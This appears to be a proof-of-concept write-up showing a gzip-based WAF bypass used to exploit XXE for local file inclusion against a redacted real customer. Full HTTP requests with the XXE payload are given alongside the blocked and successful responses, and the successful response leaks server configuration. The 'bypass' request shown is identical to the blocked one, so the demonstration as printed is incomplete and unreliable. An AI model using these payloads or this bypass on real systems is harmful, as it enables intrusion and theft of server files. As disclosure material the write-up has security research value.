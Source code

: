 # Demo of the bypass being used to exploit a real customer
Please note the name of the customer has been redacted. In this example we're doing LFI via XXE.

## Without the WAF bypass
First make a request for XXE without using the WAF bypass:

```
POST /HTTPIntNet.aspx HTTP/2
Host: images.example.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: */*
Cookie: visid_incap_2601068=xxxxx;  incap_ses_1211_2601068=yyyyy
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml; charset=utf-8
Content-Length: 216
Cache-Control: no-cache
X-Requested-With: XMLHttpRequest
Referer: https://images.example.com/foo.aspx
Origin: https://images.example.com
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

<?xml version="1.0" encoding="UTF-8" standalone="yes" ?>
<!DOCTYPE foo 
[<!ENTITY xxe SYSTEM "file:///C:/Program Files (x86)/redacted/Common Files/redacted.ini">
]>
<FUNCTION>
<NAME>&xxe;</NAME>
</FUNCTION>
```

Response:
```
HTTP/2 403 Forbidden
Content-Type: text/html
Cache-Control: no-cache, no-store
Content-Length: 866
X-Iinfo: 7-41000613-0 PNNN RT(1639592547810 0) q(0 0 0 0) r(0 -1) B15(3,501529,0) U6
Set-Cookie: incap_ses_1211_2601068=KVPoEbP3dDJg3ktCjFbOEGMyumEAAAAABlII4w2xe7Qi4FUmmOjRCA==; path=/; Domain=.bftg.com

<html style="height:100%"><head><META NAME="ROBOTS" CONTENT="NOINDEX, NOFOLLOW"><meta name="format-detection" content="telephone=no"><meta name="viewport" content="initial-scale=1.0"><meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1"><script type="text/javascript" src="/_Incapsula_Resource?SWJIYLWA=719d34d31c8e3a6e6fffd425f7e032f3"></script></head><body style="margin:0px;height:100%"><iframe id="main-iframe" src="/_Incapsula_Resource?CWUDNSAI=23&xinfo=7-41000613-0%20PNNN%20RT%281639592547810%200%29%20q%280%200%200%200%29%20r%280%20-1%29%20B15%283%2c501529%2c0%29%20U6&incident_id=1211000510216920672-176505529399184583&edet=15&cinfo=03000000c67f&rpinfo=0&mth=POST" frameborder=0 width="100%" height="100%" marginheight="0px" marginwidth="0px">Request unsuccessful. Incapsula incident ID: 1211000510216920672-176505529399184583</iframe></body></html>
```

## With the WAF bypass
Here's the same XXE request, but using the gzip exploit:
```
POST /HTTPIntNet.aspx HTTP/2
Host: images.example.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: */*
Cookie: visid_incap_2601068=xxxxx;  incap_ses_1211_2601068=yyyyy
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml; charset=utf-8
Content-Length: 216
Cache-Control: no-cache
X-Requested-With: XMLHttpRequest
Referer: https://images.example.com/foo.aspx
Origin: https://images.example.com
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

<?xml version="1.0" encoding="UTF-8" standalone="yes" ?>
<!DOCTYPE foo 
[<!ENTITY xxe SYSTEM "file:///C:/Program Files (x86)/redacted/Common Files/redacted.ini">
]>
<FUNCTION>
<NAME>&xxe;</NAME>
</FUNCTION>
```

The XXE payload gets passed by the WAF to the backend server where the XXE payload is triggered, returning the content of the LFI file we requested:
```
HTTP/2 200 OK
Cache-Control: private
Content-Type: text/xml; charset=utf-8
Server: Microsoft-IIS/8.5
X-Aspnet-Version: 4.0.30319
X-Powered-By: ASP.NET
Date: Wed, 15 Dec 2021 18:25:06 GMT
Set-Cookie: redacted=redacted; path=/; Httponly; Secure
Vary: Accept-Encoding
Set-Cookie: incap_ses_1211_2601068=xxxx=; path=/; Domain=.example.com
X-Cdn: Imperva
X-Iinfo: 13-108070049-108070050 NNYN CT(26 25 0) RT(1639592714064 0) q(0 0 1 0) r(1 1) U6

There is no function named [PxxM-GxxxxxSYSTEM]
CACHEPATH=C:\PROGRAM FILES (X86)\redacted\COMMON FILES\CACHE
CACHEURL=HTTPS://172.n.n.15/CACHE/
[redacted]
REDIRECTREQ=HTTP://Mxxxxxxxx3.example.COM
LASTUSEDPATHCACHE=C:\PROGRAM FILES (X86)\redacted\COMMON FILES\CACHE
[PxxxxxxxxSVC]
SERVICEACCOUNT=
SERVICEPWD=
.
```

The gzip bypass exploit is what made this attack possible. Note that not all webservers will process the request correctly because of the gzip/plain text mismatch, but IIS, Apache, NGINX all appear to work just fine.
